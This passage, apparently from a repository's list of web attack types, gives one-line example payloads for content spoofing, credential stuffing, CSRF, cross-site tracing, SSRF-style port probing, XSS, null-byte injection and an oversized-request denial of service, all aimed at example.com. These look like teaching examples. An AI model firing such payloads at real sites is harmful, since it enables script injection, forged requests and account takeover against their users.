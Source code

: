 #### 11. Content Spoofing
```html
http://example.com/page?message=<script>document.body.innerHTML='Hacked!'</script>
```

#### 12. Credential Stuffing
```plaintext
POST /login HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
username=admin&password=password1
```

#### 13. Cross Frame Scripting
```html
<iframe src="http://example.com"></iframe>
```

#### 14. Cross Site History Manipulation (XSHM)
```javascript
history.pushState({}, '', '/malicious');
```

#### 15. Cross Site Tracing
```http
TRACE / HTTP/1.1
Host: example.com
```

#### 16. Cross-Site Request Forgery (CSRF)
```html
<img src="http://example.com/change-password?password=newpassword">
```

#### 17. Cross Site Port Attack (XSPA)
```http
http://example.com/?url=http://localhost:8080
```

#### 18. Cross-Site Scripting (XSS)
```html
<script>alert('XSS')</script>
<img src="x" onerror="alert('XSS')">
```

#### 19. Cross-User Defacement
```html
http://example.com/editProfile?name=<script>alert('Hacked!')</script>
```

#### 20. Custom Special Character Injection
```plaintext
http://example.com/index.php?input=%00
```

#### 21. Denial of Service
```http
GET / HTTP/1.1
Host: example.com
Content-Length: 10000000
```
